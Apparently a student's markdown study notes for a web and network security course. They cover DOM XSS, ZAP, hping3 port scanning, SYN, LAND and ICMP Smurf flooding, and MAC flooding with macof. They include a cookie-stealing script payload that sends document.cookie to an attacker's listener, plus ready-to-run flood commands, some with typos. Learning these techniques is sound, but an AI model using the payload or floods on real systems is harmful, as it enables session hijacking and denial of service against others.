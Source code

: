 # File Inclusion

Check for [File Inclusion Vulnerabilty](../day5/day5.md#file-inclusion-vulnerability) if you learn the basic working where we discuss how things really work in here.

# Direct Object Modal XSS

Refer to [OWASP DOM Based XSS Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS) which tell about the making DOM based XSS Attack.

Steps to performing the practical is the following:

- Go to the page and make changes to the url, the redirected in *default* should be the following:

```
<script>window.location='http://127.0.0.1:1337/cookie?=' + document.cookie</script>
```

And this will get directed the attacker side machine which will be provide the attacker with the session id of the machine or the application that user will be using, say it could be *facebook* or say *youtube*, but the attack might be able to get the sesssion id.

For that attacker would be running an session capture mechanism on his side.

```
python -m http.server 1337
```

This command lets the attacker to listen on port 1337 where he can have the access of the session id.


# Reflected XSS

Refer to [OWASP XSS (Cross-site Scripting)](https://owasp.org/www-community/attacks/xss/) to learn more about it. 



# (ZAP) ZED Attacking Proxy

Move to Source Code Analysis tools, in order to see the tools that are used in order to identify that whether the source code is secure or not.

You can run ap in Kali Linux, using the following cmd.

```
sudo apt install zaproxy
```

It includes DAST and SAST.

# Method-based access control can be circumvented


# Active Scanning and Finger-printing


```
sudo hping3 -s --scan $PORT_RANGE $TARGET_IP
```

This `-S` means that check for SYN packages, and sepcify the port range and target IP Address. It will give the command like this.

```
sudo hping3 -S -p 80 $TARGET_IP
```

This is only happen if the port number is open then only it will respond to the SYN message, otherwise it won't give you the message, otherwise it won't give you the response. 

Now in order you wish ro flood the request with the SYN packages, in order that the machine gets all the messages on the destination machine. **Do a experiment**, create two machine and run wireshark over both of them, when you'll start with the SYN flooding, you can check the wireshark to see how packets are going on both the machines. Destination machine will be occuring with high latency, because the website is bussy in reposding to SYN messages.

```
sudo hing3 -S -p 80 $TARGET_IP --flood
```

Use the following to flood the traffic between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP
```

But you can try to flood the SYN packages between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP --flood
```

This is called **LAND Attack**, where we are spoofing the traffic which is going from your local machine but it seems like it is comming from machine.

```
sudo hping --icmp
```

# ICMP Smurfing Attack

You need to run one command and thing will start happening.

```
sudo hping3 --icmp -c 1 192.168.0.255 --rand-source --flood
```

This will send the ICMP messages to the Broadcast address of the router with some random IP address and flood the router with ICMP address, such that router will not be able to send reposnse to other machines in the network.

# A talk worth talking about Switches 

It is a Layer 2 Attack and you can flood mac addresses and use the tool named **macof** to flood the mac addresses. 
```
sudo macof -i en9
```



# Resources

Visit the [portswigger website](https://portswigger.net/web-security) in order to learn more about the methods and latest web based hacks or vulnerabilities in order to protect the website from hacks and threats. 

Visit to [OWASP Input Validation](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html) to look how the inputs taken from the users can't be trusted, secure the methods of taking inputs.

1. Remember to read about the **SAST and DAST tools** and therefore look for it.
2. Read about MVC Structure. Also remember to look for Web Framework, Flask.
3. Js-gaurd is not secure, even if the website is full of virus, it won't block the website. *Need to check it!*
